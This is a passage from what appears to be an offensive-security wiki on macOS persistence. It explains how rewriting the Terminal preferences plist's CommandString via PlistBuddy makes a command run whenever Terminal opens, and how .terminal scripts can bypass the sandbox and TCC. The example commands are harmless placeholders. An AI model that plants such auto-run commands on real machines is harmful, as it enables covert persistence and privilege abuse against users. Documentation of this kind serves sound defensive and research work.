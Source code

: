This config is reflected in the file **`~/Library/Preferences/com.apple.Terminal.plist`** like this:

```bash
[...]
"Window Settings" => {
    "Basic" => {
      "CommandString" => "touch /tmp/terminal_pwn"
      "Font" => {length = 267, bytes = 0x62706c69 73743030 d4010203 04050607 ... 00000000 000000cf }
      "FontAntialias" => 1
      "FontWidthSpacing" => 1.004032258064516
      "name" => "Basic"
      "ProfileCurrentVersion" => 2.07
      "RunCommandAsShell" => 0
      "type" => "Window Settings"
    }
[...]
```

So, if the plist of the preferences of the terminal in the system could be overwritten, the the **`open`** functionality can be used to **open the terminal and that command will be executed**.

You can add this from the cli with:

{% code overflow="wrap" %}
```bash
# Add
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"CommandString\" 'touch /tmp/terminal-start-command'" $HOME/Library/Preferences/com.apple.Terminal.plist
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"RunCommandAsShell\" 0" $HOME/Library/Preferences/com.apple.Terminal.plist

# Remove
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"CommandString\" ''" $HOME/Library/Preferences/com.apple.Terminal.plist
```
{% endcode %}

### Terminal Scripts / Other file extensions

* Useful to bypass sandbox: [✅](https://emojipedia.org/check-mark-button)
* TCC bypass: [✅](https://emojipedia.org/check-mark-button)
  * Terminal use to have FDA permissions of the user use it

#### Location

* **Anywhere**
  * **Trigger**: Open Terminal

#### Description & Exploitation

If you create a [**`.terminal`** script](https://stackoverflow.com/questions/32086004/how-to-use-the-default-terminal-settings-when-opening-a-terminal-file-osx) and opens, the **Terminal application** will be automatically invoked to execute the commands indicated in there. If the Terminal app has some special privileges (such as TCC), your command will be run with those special privileges.
